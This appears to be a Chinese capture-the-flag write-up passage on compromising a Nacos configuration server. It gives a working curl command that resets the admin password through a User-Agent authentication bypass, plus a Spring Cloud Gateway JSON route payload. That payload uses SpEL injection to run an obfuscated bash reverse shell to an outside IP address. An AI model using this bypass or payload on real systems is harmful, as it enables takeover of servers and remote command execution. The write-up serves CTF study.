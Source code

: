 首先的问题就是如何进入nacos后台

1、利用上文所给出的利用bp实现用户密码重置

2、利用用UA绕过鉴权的那个改nacos用户的密码可进入nacos后台

```plain
curl -X PUT 'http://IP:PORT/nacos/v1/auth/users?accessToken=' -H 'User-Agent:Nacos-Server' -d 'username=nacos&newPassword=root'
```

将给的jar包放到jad，看题目给的附件来代码审计，根据上文的讲解，可以去查找`bootstrap.yml`文件来分析。

[![](assets/1700442594-c4ce0798f26e91db9882172d41ed9ae3.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231118155650-07925c92-85e8-1.png)

发现了backendservice的DataID值：backcfg

综合现在得到的信息，下一步就该在nacos配置中心里面新建一个这样的配置让后台服务调用，且必须是json格式的。

根据上文，构造出**json**格式的payload

```plain
{
    "spring": {
        "cloud": {
            "gateway": {
                "routes": [{
                        "id": "aaa",
                        "order": 0,
                        "uri": "lb://backendservice",
                        "predicates": [
                            "Path=/test/**"],
                        "filters": [{
                                "name": "AddResponseHeader",
                                "args": {
                                    "name": "result",
                                    "value": "#{new java.lang.String(T(org.springframework.util.StreamUtils).copyToByteArray(T(java.lang.Runtime).getRuntime().exec(\"bash -c {echo,YmFzaCAtaSAmPiAvZGV2L3RjcC8xMTguODkuMTAxLjU2LzY2NjYgMDwmMQ==}|{base64,-d}|{bash,-i}\").getInputStream())).replaceAll('\n','').replaceAll('\r','')}"
                                }
                            }
                        ]
                    }
                ]
            }
        }
    }
}
```